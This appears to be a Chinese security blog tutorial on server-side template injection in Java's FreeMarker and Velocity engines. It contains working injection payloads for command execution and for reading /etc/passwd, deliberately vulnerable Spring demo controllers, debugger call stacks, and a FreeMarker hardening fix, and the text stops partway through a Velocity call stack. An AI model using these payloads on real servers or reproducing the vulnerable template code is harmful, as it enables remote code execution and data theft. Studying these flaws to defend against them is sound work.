多款Java模板引擎对比与模板注入的安全之旅

- - -

# 多款Java模板引擎对比与模板注入的安全之旅

## 1\. 常用模板引擎

-   FreeMarker
-   Velocity
-   Thymeleaf

## 2\. FreeMarker

### 2.1 简介

官方文档：  
Apache FreeMarker™ is a template engine: a Java library to generate text output (HTML web pages, e-mails, configuration files, source code, etc.) based on templates and changing data. Templates are written in the FreeMarker Template Language (FTL), which is a simple, specialized language.  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103172817-522ca654-7a2b-1.png)  
This approach is often referred to as the MVC (Model View Controller) pattern, and is particularly popular for dynamic web pages. It helps in separating web page designers (HTML authors) from developers (Java programmers usually). Designers won't face complicated logic in templates, and can change the appearance of a page without programmers having to change or recompile code.

FreeMarker技术将模板中占位变量和代码中响应给前台的数据，通过FreeMarker引擎对接直接输出响应给浏览器，提高了响应速度。  
原理：模板+数据模型=输出

### 2.2 相关函数及常见POC

**new**  
创建任意实现了TemplateModel接口的Java对象，同时在使用new的时候，还能够执行没有实现该接口类的静态初始化块  
FreeMarker模板注入poc中常用的两个类：  
freemarker.template.utility.JythonRuntime和freemarker.template.utility.Execute（这两个类都继承了TemplateModel接口）  
**API**  
value?api 提供对 value 的 API（通常是 Java API）的访问，例如 value?api.someJavaMethod() 或 value?api.someBeanProperty。可通过 getClassLoader获取类加载器从而加载恶意类，或者也可以通过 getResource来实现任意文件读取。  
但是，当api\_builtin\_enabled为true时才可使用api函数，而该配置在2.3.22版本之后默认为false

**POC**  
命令执行：

```plain
<#assign classLoader=object?api.class.protectionDomain.classLoader> 
<#assign clazz=classLoader.loadClass("ClassExposingGSON")> 
<#assign field=clazz?api.getField("GSON")> 
<#assign gson=field?api.get(null)> 
<#assign ex=gson?api.fromJson("{}", classLoader.loadClass("freemarker.template.utility.Execute"))> 
${ex("open -a Calculator.app"")}
```

```plain
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","whoami").start()}
```

```plain
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")
```

```plain
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("open -a Calculator.app") }
```

文件读取：

```plain
<#assign is=object?api.class.getResourceAsStream("/Test.class")>
FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
        <#break>
    </#if>
${byte}, </#list>]
```

```plain
<#assign uri=object?api.class.getResource("/").toURI()>
<#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()>
<#assign is=input?api.getInputStream()>
FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
        <#break>
    </#if>
${byte}, </#list>]
```

### 2.3 简单例子

第一：创建SpringBoot项目javasec-ssti  
第二：导入FreeMarker依赖

```plain
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-freemarker</artifactId>
</dependency>
```

第三：添加配置文件  
application.yml

```plain
spring:
  freemarker:
    #指定HttpServletRequest的属性是否可以覆盖controller的model的同名项
    allow-request-override: false
    #req访问request
    request-context-attribute: req
    #后缀名freemarker默认后缀为.ftl，当然你也可以改成自己习惯的.html
    suffix: .html

    #设置响应的内容类型
    content-type: text/html;charset=utf-8
    #是否允许mvc使用freemarker
    enabled: true
    #是否开启template caching
    cache: false
    #设定模板的加载路径，多个以逗号分隔，默认: [“classpath:/templates/”]
    template-loader-path: classpath:/templates/
    #设定Template的编码
    charset: UTF-8
```

第四：创建Controller（HelloController）

```plain
package com.example.javasecssti;

import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.*;

import java.util.Map;

@Controller
public class HelloController {
    @RequestMapping("/")
    public String index(){
        return "index";
    }

    @RequestMapping("/hello")
    public String hello(@RequestParam Map<String, Object> params, Model model) {
        model.addAttribute("name", params.get("name"));
        return "hello";
    }
}
```

第五：创建对应的视图文件（hello.html）

```plain
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>SSTI</title>
</head>
<body>
<h1>hello</h1>
<h1>name:${name}</h1>
</body>
```

第六：运行访问，访问/hello，使用get请求提交name值即可将其渲染至页面  
测试xss：如果提交的name值为`<script>alert('a')</script>`，在不经过如何过滤的情况下，会将该值渲染到界面造成弹窗  
测试命令执行：在hello.html中写入如下命令执行POC  
`<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cmd /C calc") }`  
这样在访问/hello时，会触发命令执行，弹出计算器

### 2.4 简单分析

在freemarker\\template\\utility\\Execute.class类的exec方法处下断点  
函数调用栈：

```plain
exec:75, Execute (freemarker.template.utility)
_eval:62, MethodCall (freemarker.core)
eval:101, Expression (freemarker.core)
calculateInterpolatedStringOrMarkup:100, DollarVariable (freemarker.core)
accept:63, DollarVariable (freemarker.core)
visit:334, Environment (freemarker.core)
visit:340, Environment (freemarker.core)
process:313, Environment (freemarker.core)
process:383, Template (freemarker.template)
processTemplate:391, FreeMarkerView (org.springframework.web.servlet.view.freemarker)
doRender:304, FreeMarkerView (org.springframework.web.servlet.view.freemarker)
renderMergedTemplateModel:255, FreeMarkerView (org.springframework.web.servlet.view.freemarker)
renderMergedOutputModel:179, AbstractTemplateView (org.springframework.web.servlet.view)
render:316, AbstractView (org.springframework.web.servlet.view)
render:1373, DispatcherServlet (org.springframework.web.servlet)
processDispatchResult:1118, DispatcherServlet (org.springframework.web.servlet)
doDispatch:1057, DispatcherServlet (org.springframework.web.servlet)
doService:943, DispatcherServlet (org.springframework.web.servlet)
processRequest:1006, FrameworkServlet (org.springframework.web.servlet)
doGet:898, FrameworkServlet (org.springframework.web.servlet)
service:626, HttpServlet (javax.servlet.http)
service:883, FrameworkServlet (org.springframework.web.servlet)
service:733, HttpServlet (javax.servlet.http)
internalDoFilter:231, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilter:53, WsFilter (org.apache.tomcat.websocket.server)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:100, RequestContextFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:93, FormContentFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:201, CharacterEncodingFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
invoke:202, StandardWrapperValve (org.apache.catalina.core)
invoke:97, StandardContextValve (org.apache.catalina.core)
invoke:542, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:143, StandardHostValve (org.apache.catalina.core)
invoke:92, ErrorReportValve (org.apache.catalina.valves)
invoke:78, StandardEngineValve (org.apache.catalina.core)
service:343, CoyoteAdapter (org.apache.catalina.connector)
service:374, Http11Processor (org.apache.coyote.http11)
process:65, AbstractProcessorLight (org.apache.coyote)
process:868, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1590, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1142, ThreadPoolExecutor (java.util.concurrent)
run:617, ThreadPoolExecutor$Worker (java.util.concurrent)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:745, Thread (java.lang)
```

观察exec方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103172856-6939554a-7a2b-1.png)

### 2.5 修复防御

```plain
Configuration cfg = new Configuration();
cfg.setNewBuiltinClassResolver(TemplateClassResolver.SAFER_RESOLVER);
```

```plain
//设置模板
HashMap<String, String> map = new HashMap<String, String>();
String poc ="<#assign aaa=\"freemarker.template.utility.Execute\"?new()> ${ aaa(\"open -a Calculator.app\") }";
System.out.println(poc);
StringTemplateLoader stringLoader = new StringTemplateLoader();
Configuration cfg = new Configuration();
stringLoader.putTemplate("name",poc);
cfg.setTemplateLoader(stringLoader);
//cfg.setNewBuiltinClassResolver(TemplateClassResolver.SAFER_RESOLVER);
//处理解析模板
Template Template_name = cfg.getTemplate("name");
StringWriter stringWriter = new StringWriter();

Template_name.process(Template_name,stringWriter);
```

设置`cfg.setNewBuiltinClassResolver(TemplateClassResolver.SAFER_RESOLVER);`，它会加入一个校验，将freemarker.template.utility.JythonRuntime、freemarker.template.utility.Execute、freemarker.template.utility.ObjectConstructor过滤

分析TemplateClassResolver.SAFER\_RESOLVER

```plain
TemplateClassResolver SAFER_RESOLVER = new TemplateClassResolver() {
    public Class resolve(String className, Environment env, Template template) throws TemplateException {
        if (!className.equals(ObjectConstructor.class.getName()) && !className.equals(Execute.class.getName()) && !className.equals("freemarker.template.utility.JythonRuntime")) {
            try {
                return ClassUtil.forName(className);
            } catch (ClassNotFoundException var5) {
                throw new _MiscTemplateException(var5, env);
            }
        } else {
            throw _MessageUtil.newInstantiatingClassNotAllowedException(className, env);
        }
    }
};
```

从 2.3.17版本以后，官方版本提供了三种TemplateClassResolver对类进行解析：  
1、UNRESTRICTED\_RESOLVER：可以通过 ClassUtil.forName(className) 获取任何类。  
2、SAFER\_RESOLVER：不能加载 freemarker.template.utility.JythonRuntime、freemarker.template.utility.Execute、freemarker.template.utility.ObjectConstructor这三个类。  
3、ALLOWS\_NOTHING\_RESOLVER：不能解析任何类。

可通过freemarker.core.Configurable#setNewBuiltinClassResolver方法设置TemplateClassResolver，从而限制通过new()函数对freemarker.template.utility.JythonRuntime、freemarker.template.utility.Execute、freemarker.template.utility.ObjectConstructor这三个类的解析

### 2.6 参考

[https://freemarker.apache.org/](https://freemarker.apache.org/)  
[https://www.cnblogs.com/nice0e3/p/16217471.html](https://www.cnblogs.com/nice0e3/p/16217471.html)  
[https://paper.seebug.org/1304](https://paper.seebug.org/1304)

## 3\. velocity

### 3.1 简介

官方文档介绍：  
Velocity is a Java-based template engine. It permits anyone to use a simple yet powerful template language to reference objects defined in Java code.  
在基于MVC模型开发时，Velocity可作为view引擎，取代jsp  
官方文档：[https://velocity.apache.org/](https://velocity.apache.org/)

### 3.2 基本语法

**#**：标识velocity的脚本语句  
`#set、#if、#else、#end、#foreach、#include、#parse、#macro`  
**$**：标识变量，如hello $a  
**声明**：set用于声明Velocity脚本变量  
**注释**：  
单行注释用`##`，多行注释用`#*......*#`  
**{}**：用来明确标识Velocity变量  
**!**：强制把不存在的变量显示为空白  
参考文档：[https://wizardforcel.gitbooks.io/velocity-doc/content/index.html](https://wizardforcel.gitbooks.io/velocity-doc/content/index.html)

### 3.3 常见POC

web程序中弹出msg的例子：

```plain
#if($msg)

<script>
alert('$!msg');
</script>

#end
```

命令执行POC：

```plain
// 命令执行1
#set($e="e")
$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("open -a Calculator")

// 命令执行2 
#set($x='')##
#set($rt = $x.class.forName('java.lang.Runtime'))##
#set($chr = $x.class.forName('java.lang.Character'))##
#set($str = $x.class.forName('java.lang.String'))##
#set($ex=$rt.getRuntime().exec('id'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach( $i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end

// 命令执行3
#set ($e="exp")
#set ($a=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd))
#set ($input=$e.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
#set($sc = $e.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.InputStream")))
#set($scan=$constructor.newInstance($input).useDelimiter("\A"))
#if($scan.hasNext())
$scan.next()
#end
```

### 3.4 简单例子

第一：导入依赖

```plain
<dependency>
    <groupId>org.apache.velocity</groupId>
    <artifactId>velocity</artifactId>
    <version>1.7</version>
</dependency>
```

第二：编写VelocityController

```plain
package com.example.javasecssti;

import org.apache.velocity.VelocityContext;
import org.apache.velocity.app.Velocity;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.ResponseBody;

import java.io.StringWriter;

@Controller
public class VelocityController {
    @RequestMapping("/ssti/velocity")
    @ResponseBody
    public String velocity1(@RequestParam(defaultValue="nth347") String username) {
        String templateString = "Hello, " + username + " | Full name: $name, phone: $phone, email: $email";

        Velocity.init();
        VelocityContext ctx = new VelocityContext();
        ctx.put("name", "Nguyen Nguyen Nguyen");
        ctx.put("phone", "012345678");
        ctx.put("email", "nguyen@vietnam.com");

        StringWriter out = new StringWriter();
        // 将模板字符串和上下文对象传递给Velocity引擎进行解析和渲染
        Velocity.evaluate(ctx, out, "test", templateString);

        return out.toString();
    }

}
```

第三：启动测试  
poc

```plain
#set($e="e")
$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("cmd /C calc")
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103172926-7b04d2fe-7a2b-1.png)  
命令执行成功，弹出计算器

### 3.5 简单分析

根据测试程序，首先会进入Velocity类的init方法

```plain
public static void init() {
    RuntimeSingleton.init();
}
```

在该方法中，会调用RuntimeSingleton类的init方法，这个方法主要是对模板引擎的初始化，比如设置属性、初始化日志系统、资源管理器、指令等  
接下来回到主程序中，实例化VelocityContext，并将三对键值对put进去，之后调用Velocity类的evaluate方法  
此时templateString的值为

```plain
Hello, #set($e="e")
$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("cmd /C calc") | Full name: $name, phone: $phone, email: $email
```

```plain
public static boolean evaluate(Context context, Writer out, String logTag, String instring) throws ParseErrorException, MethodInvocationException, ResourceNotFoundException {
    return RuntimeSingleton.getRuntimeServices().evaluate(context, out, logTag, instring);
}
```

直接进入了RuntimeInstance的evaluate方法

```plain
public boolean evaluate(Context context, Writer out, String logTag, String instring) {
    return this.evaluate(context, out, logTag, (Reader)(new StringReader(instring)));
}
```

进入重载的evaluate方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103172953-8b649cec-7a2b-1.png)  
这个方法会调用RuntimeInstance类的parse方法进行解析  
经过两重调用来到org\\apache\\velocity\\runtime\\parser\\Parser.class的parse方法

```plain
public SimpleNode parse(Reader reader, String templateName) throws ParseException {
    SimpleNode sn = null;
    this.currentTemplateName = templateName;

    try {
        // 清除词法分析器的状态变量
        this.token_source.clearStateVars();
        // 使用传入的Reader对象重新初始化字符流
        this.velcharstream.ReInit(reader, 1, 1);
        // 使用重新初始化的字符流重新初始化语法分析器
        this.ReInit((CharStream)this.velcharstream);
        // 进行模板解析
        sn = this.process();
    } catch (MacroParseException var6) {
        this.rsvc.getLog().error("Parser Error: " + templateName, var6);
        throw var6;
    } catch (ParseException var7) {
        this.rsvc.getLog().error("Parser Exception: " + templateName, var7);
        throw new TemplateParseException(var7.currentToken, var7.expectedTokenSequences, var7.tokenImage, this.currentTemplateName);
    } catch (TokenMgrError var8) {
        throw new ParseException("Lexical error: " + var8.toString());
    } catch (Exception var9) {
        String msg = "Parser Error: " + templateName;
        this.rsvc.getLog().error(msg, var9);
        throw new VelocityException(msg, var9);
    }

    this.currentTemplateName = "";
    return sn;
}
```

执行完process方法后，sn的值如下：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103173020-9b76c286-7a2b-1.png)  
到目前为止，解析工作完成，函数调用栈如下：

```plain
process:282, Parser (org.apache.velocity.runtime.parser)
parse:117, Parser (org.apache.velocity.runtime.parser)
parse:1226, RuntimeInstance (org.apache.velocity.runtime)
parse:1181, RuntimeInstance (org.apache.velocity.runtime)
evaluate:1297, RuntimeInstance (org.apache.velocity.runtime)
evaluate:1265, RuntimeInstance (org.apache.velocity.runtime)
evaluate:180, Velocity (org.apache.velocity.app)
velocity1:26, VelocityController (com.example.javasecssti)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
doInvoke:190, InvocableHandlerMethod (org.springframework.web.method.support)
invokeForRequest:138, InvocableHandlerMethod (org.springframework.web.method.support)
invokeAndHandle:105, ServletInvocableHandlerMethod (org.springframework.web.servlet.mvc.method.annotation)
invokeHandlerMethod:878, RequestMappingHandlerAdapter (org.springframework.web.servlet.mvc.method.annotation)
handleInternal:792, RequestMappingHandlerAdapter (org.springframework.web.servlet.mvc.method.annotation)
handle:87, AbstractHandlerMethodAdapter (org.springframework.web.servlet.mvc.method)
doDispatch:1040, DispatcherServlet (org.springframework.web.servlet)
doService:943, DispatcherServlet (org.springframework.web.servlet)
processRequest:1006, FrameworkServlet (org.springframework.web.servlet)
doPost:909, FrameworkServlet (org.springframework.web.servlet)
service:652, HttpServlet (javax.servlet.http)
service:883, FrameworkServlet (org.springframework.web.servlet)
service:733, HttpServlet (javax.servlet.http)
internalDoFilter:231, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilter:53, WsFilter (org.apache.tomcat.websocket.server)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:100, RequestContextFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:93, FormContentFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:201, CharacterEncodingFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
invoke:202, StandardWrapperValve (org.apache.catalina.core)
invoke:97, StandardContextValve (org.apache.catalina.core)
invoke:542, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:143, StandardHostValve (org.apache.catalina.core)
invoke:92, ErrorReportValve (org.apache.catalina.valves)
invoke:78, StandardEngineValve (org.apache.catalina.core)
service:343, CoyoteAdapter (org.apache.catalina.connector)
service:374, Http11Processor (org.apache.coyote.http11)
process:65, AbstractProcessorLight (org.apache.coyote)
process:868, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1590, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1142, ThreadPoolExecutor (java.util.concurrent)
run:617, ThreadPoolExecutor$Worker (java.util.concurrent)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:745, Thread (java.lang)
```

接下来就是渲染工作了，回到RuntimeInstance类的evaluate方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103173043-a96467d6-7a2b-1.png)  
进入render方法中进行渲染，这里从context取值去做模板解析，输出到output writer当中  
在ASTMethod类的execute方法中反射调用runtime  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103173103-b53e3744-7a2b-1.png)  
函数调用栈：

```plain
exec:347, Runtime (java.lang)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
doInvoke:395, UberspectImpl$VelMethodImpl (org.apache.velocity.util.introspection)
invoke:384, UberspectImpl$VelMethodImpl (org.apache.velocity.util.introspection)
execute:173, ASTMethod (org.apache.velocity.runtime.parser.node)
execute:280, ASTReference (org.apache.velocity.runtime.parser.node)
render:369, ASTReference (org.apache.velocity.runtime.parser.node)
render:342, SimpleNode (org.apache.velocity.runtime.parser.node)
render:1378, RuntimeInstance (org.apache.velocity.runtime)
evaluate:1314, RuntimeInstance (org.apache.velocity.runtime)
evaluate:1265, RuntimeInstance (org.apache.velocity.runtime)
evaluate:180, Velocity (org.apache.velocity.app)
velocity1:26, VelocityController (com.example.javasecssti)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
doInvoke:190, InvocableHandlerMethod (org.springframework.web.method.support)
invokeForRequest:138, InvocableHandlerMethod (org.springframework.web.method.support)
invokeAndHandle:105, ServletInvocableHandlerMethod (org.springframework.web.servlet.mvc.method.annotation)
invokeHandlerMethod:878, RequestMappingHandlerAdapter (org.springframework.web.servlet.mvc.method.annotation)
handleInternal:792, RequestMappingHandlerAdapter (org.springframework.web.servlet.mvc.method.annotation)
handle:87, AbstractHandlerMethodAdapter (org.springframework.web.servlet.mvc.method)
doDispatch:1040, DispatcherServlet (org.springframework.web.servlet)
doService:943, DispatcherServlet (org.springframework.web.servlet)
processRequest:1006, FrameworkServlet (org.springframework.web.servlet)
doPost:909, FrameworkServlet (org.springframework.web.servlet)
service:652, HttpServlet (javax.servlet.http)
service:883, FrameworkServlet (org.springframework.web.servlet)
service:733, HttpServlet (javax.servlet.http)
internalDoFilter:231, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilter:53, WsFilter (org.apache.tomcat.websocket.server)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:100, RequestContextFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
